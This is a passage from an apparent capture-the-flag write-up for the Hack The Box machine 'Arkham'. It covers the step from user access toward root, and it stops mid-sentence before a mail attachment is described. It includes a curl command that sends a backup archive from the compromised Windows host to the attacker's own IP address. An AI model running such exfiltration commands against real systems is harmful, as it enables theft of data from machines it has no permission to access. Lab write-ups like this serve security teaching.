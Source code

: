 ```console
               2 Dir(s)   8,652,840,960 bytes free
```

See how easy it is once you've written a command injection script! That is how you get `user` on Arkham.

## Root

From this point on I started enumerating the machine. I found an interesting file under `C:\Users\Alfred\Downloads\backups`. I copied the file over using [this SimpleHTTPServer](https://gist.github.com/UniIsland/3346170) with POST functionality for file uploads. 

```plaintext
C:\Users\Alfred\Downloads\backups>curl -X POST -F "file=@backup.zip" 10.10.15.151
curl -X POST -F "file=@backup.zip" 10.10.15.151
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  121k    0     0  100  121k      0   121k  0:00:01  0:00:01 --:--:-- 95959
```

If you unzip the file, you'll get a file called `alfred@arkham.local.ost`, which is a mail folder file. You can import this in almost all mail clients. I used `evolution`. 

![mail](mail.png)

In the drafts folder, there is an email that has this attachment:
